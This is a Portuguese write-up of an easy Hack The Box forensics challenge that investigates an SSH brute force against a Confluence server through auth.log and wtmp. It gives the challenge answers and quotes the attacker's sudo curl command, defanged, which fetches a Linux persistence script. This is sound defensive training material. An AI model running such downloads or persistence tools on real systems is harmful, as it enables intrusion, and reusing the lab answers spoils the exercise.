Neste Sherlock muito fácil, você vai se familiarizar com Unix auth.log e logs wtmp. Vamos explorar um cenário em que um servidor Confluence foi forçado por bruto através de seu serviço SSH. Depois de obter acesso ao servidor, o invasor realizou atividades adicionais, que podemos rastrear usando auth.log. Embora o auth.log seja usado principalmente para análise de força bruta, vamos aprofundar todo o potencial desse artefato em nossa investigação, incluindo aspectos de escalada de privilégios, persistência e até mesmo alguma visibilidade sobre a execução de comando.

--------------------------
## Perguntas e respostas

- Analise o auth.log. Qual é o endereço IP usado pelo invasor para realizar um ataque de força bruta? 
  Obtemos o arquivo Brutus.zip para download no htb:
  
  
  descompactamos então o arquivo utilizando a ferramenta 7zip com o comando: `7z x Brutus.zip`, conseguindo assim os arquivos: **auth.log**, **utmp.py** e **wtmp**.
  
  Ao analisarmos o **auth.log**, conseguimos analisar que um IP suspeito esta tentando fazer login SSH em diversas portas: **65.2.161.68 ** 
  
  
- As tentativas de força bruta foram bem-sucedidas e o invasor obteve acesso a uma conta no servidor. Qual é o nome de usuário da conta? 
  
  Conseguiu acesso a conta **root** 
   
  
  
- Identifique o carimbo de data/hora UTC quando o invasor fez login manualmente no servidor e estabeleceu uma sessão de terminal para realizar seus objetivos. O tempo de login será diferente do tempo de autenticação e pode ser encontrado no artefato do wtmp. 
  
  Ao utilizar o comando `python utmp.py --output wtmp input`, conseguimos a "tabela" dos acessos e horários com 5 horas de atraso, ao avaliar tanto os dados do **wtmp** e do **auth.log**, conseguimos identificar a hora exata do carimbo: **2024-03-06 06:32:45**  
  
  Tendo 1 seg de atraso em comparação ao arquivo **auth.log**.
  
  
- As sessões de login do SSH são rastreadas e atribuídas um número de sessão após o login. Qual é o número de sessão atribuído à sessão do atacante para a conta de usuário da Pergunta 2? 
  
  Ao pesquisar por novas sessões do usuário root conseguimos obter:  
  
  Ao continuarmos analisando, conseguimos encontrar que ao achar a sessão 37, o endereço ip do atacante é validado com o numero da sessão, sendo assim a resposta é **37**:! 
  
  
- O invasor adicionou um novo usuário como parte de sua estratégia de persistência no servidor e deu a essa nova conta de usuário privilégios mais altos. Qual é o nome desta conta? 
  
  Ao filtrarmos por usuários adicionados conseguimos o resultado:  
  
  Pesquisando mais sobre o usuário **cyberjunkie**, conseguimos obter o resultado da pergunta:
   
  
  
- O que é o ID de sub-técnica MITRE ATT&CK usado para persistência criando uma nova conta? 
  
  Vamos até o framework mitre e olharmos qual é o id de conta criada a partir de acesso local ao computador:
   
  
  
- A que horas terminou a primeira sessão SSH do atacante de acordo com auth.log?
  
  Ao filtrar por **sessão 37**, conseguimos obter o resultado de: **2024-03-06 06:37:24**  
  
  
- O invasor fez login em sua conta de backdoor e utilizou seus privilégios mais altos para baixar um script. Qual é o comando completo executado usando sudo? 
  
  Ao filtrar por `cat auth.log | grep "cyberjunkie"`, conseguimos perceber que o atacante baixou um arquivo com o comando curl: /usr/bin/curl hxxps://raw[.]githubusercontent[.]com/montysecurity/linper/main/linper[.]sh
  
   
  
 --------------

### Conclusão

Terminamos o sherlock, melhorando nosso resultado de analise de auth.log, utilizando comandos como cat, grep, 7z e python.

   
  
  
